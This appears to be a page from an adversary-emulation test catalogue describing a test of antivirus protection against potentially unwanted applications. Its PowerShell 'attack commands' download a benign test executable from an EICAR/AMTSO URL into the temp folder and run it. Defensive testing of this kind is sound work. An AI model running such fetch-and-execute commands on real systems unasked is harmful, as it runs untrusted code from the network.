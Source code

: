 


<br/>
<br/>

## Atomic Test #8 - Potentially Unwanted Applications (PUA)
The Potentially Unwanted Applications (PUA) protection feature in antivirus software can identify and block PUAs from downloading and installing on endpoints in your network. These applications are not considered viruses, malware, or other types of threats, but might perform actions on endpoints that adversely affect their performance or use. This file is similar to EICAR test virus file, but is considered a Potentially Unwanted Application (PUA) instead of a VIRUS (i.e. not actually malicious, but is flagged as it to verify anti-pua protection).

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| pua_url | url to PotentiallyUnwanted.exe | url | http://amtso.eicar.org/PotentiallyUnwanted.exe|
| pua_file | path to PotentiallyUnwanted.exe | Path | $env:TEMP/PotentiallyUnwanted.exe|


#### Attack Commands: Run with `powershell`! 


```powershell
Invoke-WebRequest #{pua_url} -OutFile #{pua_file}
& "#{pua_file}"
```

#### Cleanup Commands:
```powershell
Remove-Item #{pua_file}
```





<br/>
